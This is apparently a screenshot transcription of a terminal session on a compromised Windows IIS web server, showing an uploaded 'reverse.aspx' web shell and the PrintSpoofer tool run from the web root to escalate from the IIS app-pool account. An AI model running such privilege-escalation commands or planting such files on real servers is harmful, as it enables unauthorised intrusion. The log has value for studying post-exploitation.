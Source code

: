 ```css
Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       08/10/2023     23:22                03-comming-soon                                                       
d-----       08/10/2023     21:46                aspnet_client                                                         
d-----       08/10/2023     23:14                common-js                                                             
d-----       08/10/2023     23:14                fonts                                                                 
d-----       08/10/2023     23:14                images                                                                
-a----       08/04/2024      8:55            320 hello.aspx                                                            
-a----       08/10/2023     23:26           1481 index.html                                                            
-a----       08/04/2024     13:42          27136 PrintSpoofer.exe                                                      
-a----       08/04/2024      9:05          15970 reverse.aspx                                                          


PS C:\inetpub\wwwroot> ./PrintSpoofer.exe -i -c cmd
./PrintSpoofer.exe -i -c cmd
PS C:\inetpub\wwwroot> whoami
whoami
iis apppool\defaultapppool
PS C:\inetpub\wwwroot> cmd
cmd
Microsoft Windows [Versi�n 10.0.17763.107]
(c) 2018 Microsoft Corporation. Todos los derechos reservados.

C:\inetpub\wwwroot>ls
ls
"ls" no se reconoce como un comando interno o externo,
programa o archivo por lotes ejecutable.

C:\inetpub\wwwroot>dir
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 26CD-AE41

 Directorio de C:\inetpub\wwwroot

08/04/2024  13:42    <DIR>          .
08/04/2024  13:42    <DIR>          ..
08/10/2023  23:22    <DIR>          03-comming-soon
08/10/2023  21:46    <DIR>          aspnet_client
08/10/2023  23:14    <DIR>          common-js
08/10/2023  23:14    <DIR>          fonts
08/04/2024  08:55               320 hello.aspx
08/10/2023  23:14    <DIR>          images
08/10/2023  23:26             1.481 index.html
08/04/2024  13:42            27.136 PrintSpoofer.exe
08/04/2024  09:05            15.970 reverse.aspx
               4 archivos         44.907 bytes
               7 dirs  45.572.870.144 bytes libres

C:\inetpub\wwwroot>PrintSpoofer.exe -i -c cmd.exe
PrintSpoofer.exe -i -c cmd.exe
```